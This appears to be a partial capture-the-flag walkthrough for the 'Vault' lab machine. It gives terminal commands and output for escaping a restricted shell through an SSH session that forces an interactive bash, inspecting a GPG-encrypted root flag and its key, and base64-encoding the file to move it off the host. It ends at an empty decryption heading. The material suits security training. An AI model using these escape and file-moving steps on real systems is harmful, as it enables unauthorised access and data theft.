

# 25 - Vault

# rbash
```
dave@vault:~$ ls                               
root.txt.gpg                                                                                   
dave@vault:~$ ls -la                                                                           
total 40                                                                                       
drwxr-xr-x 5 dave dave 4096 Sep  3  2018 .                                                     
drwxr-xr-x 4 root root 4096 Jul 17  2018 ..                                                                                                                                                   
-rw------- 1 dave dave   22 Jul 16 13:30 .bash_history
-rw-r--r-- 1 dave dave  220 Jul 17  2018 .bash_logout                                          
-rw-r--r-- 1 dave dave 3771 Jul 17  2018 .bashrc                                               
drwx------ 2 dave dave 4096 Jul 17  2018 .cache                                                
drwxrwxr-x 2 dave dave 4096 Sep  2  2018 .nano
-rw-r--r-- 1 dave dave  655 Jul 17  2018 .profile                                              
-rw-rw-r-- 1 dave dave  629 Sep  3  2018 root.txt.gpg
drwx------ 2 dave dave 4096 Jul 17  2018 .ssh                                                                                                                                                 
dave@vault:~$ file roo-rbash: /dev/null: restricted: cannot redirect output
-rbash: /dev/null: restricted: cannot redirect output                            
bash: _upvars: `-a2': invalid number specifier                                                 
-rbash: /dev/null: restricted: cannot redirect output                                                                                                                                         
bash: _upvars: `-a0': invalid number specifier                                            
```

we are in rbash

# rbash escape

```
root@DNS:/root# ssh  -6 -l dave fe80::5054:ff:fec6:7066%ens3 -p987  -t "bash --noprofile -i"
```

# GPG encrypted root.txt
```
dave@vault:~$ ls -l
total 4
-rw-rw-r-- 1 dave dave 629 Sep  3  2018 root.txt.gpg
dave@vault:~$ gpg root.txt.gpg 
gpg: encrypted with RSA key, ID D1EB1F03
gpg: decryption failed: secret key not available
dave@vault:~$ 

```


# Dave's GPG key

```
dave@ubuntu:~$ gpg --list-keys
/home/dave/.gnupg/pubring.gpg
-----------------------------
pub   4096R/0FDFBFE4 2018-07-24
uid                  david <dave@david.com>
sub   4096R/D1EB1F03 2018-07-24
```

# base64 encode the file to move it to the attacker
```py
dave@vault:~$ python3m
Python 3.5.2 (default, Nov 23 2017, 16:37:01) 
[GCC 5.4.0 20160609] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import base64
>>> with open("root.txt.gpg","rb") as f:
...     print(base64.b64encode(f.read()))
... 
b'hQIMA8d4xhDR6x8DARAAoJjq0xo2bn5JfY3Q6EMVZjkwUK7JPcwUEr1RNUx98k41oOFdtugxUjwHSZ9x9BU9sph696HhlKlPO0au7DeFyxqPFbjR2CdwoT9PBf8vuSEzEqVltvAq31jQbXpUSA2AxYSj3fWKCAkIPcUBTTcJAnac0EMmXlAQzdAmvFEU+9BRkcpJDSpYV8W2IQf+fsnh14hcc5tXZQZX0mPtLlwYVlJq4xgpV3znnJrrlUgKJqkqhq1i2/JEAL5Ul1k5as9Ha1N8KffjmfEsrRQl8TS5NLoC3mVp3w90X0LYhyDcRz7HPzXfdPMdM+G9NEX1zY4c6cr1sxOdLcpUwbZ4itd7XjCA71B23Ncd7eniLGCkErDaVkZh8oa4DyIG78bxqFTDgk6XrH6pz9XRXhDBSZnCezI90WkbxGecOB42cAOwGkuHcnSF44eXDT60Yl9h6bvRZVEQF3/39ee+nMaW5b5PnWzGb/PC4kT3ZDeWYSiloF6a5sOwDO2CL/qipnAFPj8UthhrCCcQj4rRH2zeeh4y9fh3m3G37Q+U9lNgpjzj0nzVCfjdrMRvUs5itxwpjwaxN6q2q1kxe1DhPCzaAHhLT7We7p2hxdSj1yPgefSzJ39GENgJI1fbTDEaMzwkPra4I2MiJCEVgZnV29oRHPYrmGsfx4tSkBy6tJW342/s88fSZAFwRHa6C9Hrr7GSVucoJ5z2kNKAPnS/cUmBc3OdeJlMxdfzQTMucmv89wwgNgKNLO6wmSFppVRnpmLE+AFoCEqg/JS91N5mVhZPkHwW6V94CxMF/3xqTMKpzBfdERq0MGYij98='
```


# Decrypt root.txt with the key
